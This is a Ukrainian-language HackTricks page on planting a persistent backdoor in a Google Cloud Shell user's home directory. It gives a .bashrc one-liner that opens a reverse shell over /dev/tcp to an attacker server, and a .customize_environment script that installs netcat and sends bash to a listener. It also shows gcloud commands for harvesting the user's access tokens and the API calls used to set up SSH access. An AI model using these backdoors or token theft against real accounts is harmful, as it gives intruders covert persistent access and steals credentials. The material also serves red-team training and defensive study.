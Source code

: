 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Для отримання додаткової інформації перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) надає вам доступ до командного рядка ваших хмарних ресурсів безпосередньо з вашого браузера без будь-яких супутніх витрат.

Ви можете отримати доступ до Cloud Shell Google з **веб-консолі** або запустивши **`gcloud cloud-shell ssh`**.

Ця консоль має деякі цікаві можливості для атакуючих:

1. **Будь-який користувач Google з доступом до Google Cloud** має доступ до повністю автентифікованого екземпляра Cloud Shell (Службові облікові записи можуть, навіть будучи власниками організації).
2. Вказаний екземпляр **зберігатиме свій домашній каталог принаймні 120 днів**, якщо не буде жодної активності.
3. **Немає можливостей для організації моніторити** активність цього екземпляра.

Це в основному означає, що атакуючий може помістити бекдор у домашній каталог користувача, і поки користувач підключається до GC Shell принаймні кожні 120 днів, бекдор виживе, і атакуючий отримає оболонку щоразу, коли вона запускається, просто виконавши:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Є ще один файл у домашній папці під назвою **`.customize_environment`**, який, якщо існує, буде **виконуватись щоразу**, коли користувач отримує доступ до **cloud shell** (як у попередній техніці). Просто вставте попередній бекдор або один з наступних, щоб підтримувати стійкість, поки користувач "часто" використовує cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Важливо зазначити, що **перший раз, коли виконується дія, що вимагає аутентифікації**, у браузері користувача з'являється вікно авторизації. Це вікно потрібно прийняти, перш ніж команда зможе виконатися. Якщо з'явиться несподіване вікно, це може викликати підозру і потенційно скомпрометувати метод збереження.
{% endhint %}

Це вікно, що з'являється при виконанні `gcloud projects list` з cloud shell (як атакуючий), переглянуте в сеансі браузера користувача:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Однак, якщо користувач активно використовував cloudshell, вікно не з'явиться, і ви можете **збирати токени користувача за допомогою**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Як встановлюється SSH-з'єднання

В основному, використовуються ці 3 API виклики:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (дозволить вам додати ваш публічний ключ, який ви створили локально)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (дозволить вам запустити екземпляр)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (повідомить вам IP адресу google cloud shell)

Але ви можете знайти додаткову інформацію в [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Посилання

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
